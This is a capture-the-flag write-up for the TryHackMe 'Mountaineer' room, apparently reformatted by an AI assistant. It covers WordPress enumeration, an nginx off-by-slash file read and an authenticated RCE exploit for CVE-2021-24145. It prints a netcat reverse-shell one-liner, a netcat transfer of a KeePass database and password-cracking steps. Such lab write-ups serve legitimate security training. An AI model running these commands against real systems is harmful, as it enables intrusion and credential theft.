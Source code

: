 # TryHackMe: Mountaineer
![room_image](https://tryhackme-images.s3.amazonaws.com/room-icons/618b3fa52f0acc0061fb0172-1718377695513)
---

Mountaineer was an interesting box that started with discovering a WordPress instance running a plugin vulnerable to authenticated RCE. Using the nginx off-by-slash vulnerability, I was able to read files on the server, which revealed a vhost hosting Roundcube. By logging into Roundcube with guessable credentials, I found WordPress creds and some user info. Using the creds, I exploited the vulnerable plugin to get a shell as `www-data`.

Later, I found a KeePass database belonging to a user I had info on. By generating a targeted wordlist, I cracked the master password for the database, which gave me creds for another user. Checking their bash history revealed the `root` password, allowing me to complete the room.

Finally, I’ve also documented how the nginx off-by-slash vuln can be combined with WordPress password reset to gain a foothold.

---

## Room Link

[TryHackMe Mountaineer](https://tryhackme.com/room/mountaineerlinux)

---

## Initial Enumeration

### Nmap

```bash
nmap -T4 -n -sC -sV -Pn -p- 10.10.146.154
```

**Ports open:**

* 22 (SSH)
* 80 (HTTP)

Visiting `http://10.10.146.154` showed the default nginx page.

---

## Shell as www-data

### Enumerating WordPress

Using `ffuf`, I found `/wordpress/`:

```bash
ffuf -u 'http://10.10.146.154/FUZZ' -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -mc all -t 100 -ic -fs 162
```

Since resources loaded under `mountaineer.thm`, I added:

```
10.10.146.154 mountaineer.thm
```

to `/etc/hosts`.

---

### WPScan Enumeration

```bash
wpscan --url http://mountaineer.thm/wordpress/ -e ap,vt,tt,cb,dbe,u,m
```

**Users discovered:**

* admin
* everest
* montblanc
* chooyu
* k2

**Plugin discovered:**

* Modern Events Calendar Lite 5.16.2

**Vulnerabilities:**

* CVE-2021-24946 (unauth blind SQLi, not useful for creds)
* CVE-2021-24145 (auth RCE via arbitrary file upload)

---

## Nginx Off-By-Slash

Fuzzing `/wordpress/` revealed `/wordpress/images/`, which was exploitable via:

```
/wordpress/images../.
```

to read server files. Extracted:

* `adminroundcubemail.mountaineer.thm`

Added to hosts:

```
10.10.146.154 adminroundcubemail.mountaineer.thm
```

---

## Roundcube Access

Navigated to `http://adminroundcubemail.mountaineer.thm` and brute-forced weak creds. Logged in using:

```
k2:k2
```

* Found password in inbox
* Found `lhotse` user info in sent items

---

## Exploiting CVE-2021-24145

Logged into WordPress as `k2`, used:

```bash
wget https://raw.githubusercontent.com/Hacker5preme/Exploits/refs/heads/main/Wordpress/CVE-2021-24145/exploit.py
python3 exploit.py -T mountaineer.thm -P 80 -U /wordpress/ -u k2 -p <password>
```

Confirmed shell upload:

```
http://mountaineer.thm/wordpress/wp-content/uploads/shell.php
```

Got reverse shell as `www-data`:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <my-ip> 443 >/tmp/f
```

---

## Shell as kangchenjunga

### Finding KeePass Database

Found `Backup.kdbx` in `/home/lhotse/`, readable by `www-data`. Transferred via:

```bash
nc -lvnp 444 > Backup.kdbx
nc <my-ip> 444 < /home/lhotse/Backup.kdbx
```

---

### Cracking KeePass

Generated hash:

```bash
keepass2john Backup.kdbx > keepass_hash
```

Default lists failed, so generated targeted wordlist using `cupp`:

```bash
cupp -i
```

Cracked using:

```bash
john keepass_hash --wordlist=mount.txt
```

Recovered master password, opened in `kpcli`, retrieved `kangchenjunga` creds.

---

### SSH Access

```bash
ssh kangchenjunga@mountaineer.thm
```

Found first flag:

```
/home/kangchenjunga/local.txt
```

---

## Root Access

### Checking Bash History

Found note in `mynotes.txt` that root used this user’s account. `.bash_history` contained:

```
suroot
<root-password>
```

Switched to root:

```bash
su - root
```

Read final flag:

```
/root/root.txt
```

---

## Alternative Foothold: Password Reset + Off-By-Slash

1. Use **WordPress password reset** for `admin`.
2. Exploit nginx off-by-slash to read `/var/mail/www-data` and get the reset link.
3. Reset admin password.
4. Use CVE-2021-24145 or plugin upload to get `www-data` shell.

---

## Notes

✅ Demonstrated multiple foothold paths
✅ Practical off-by-slash exploitation and KeePass cracking
✅ Covered complete path to root

---

If you need, I can generate this as a **clean PDF for your TryHackMe collection** for easy review and print-friendly offline study.
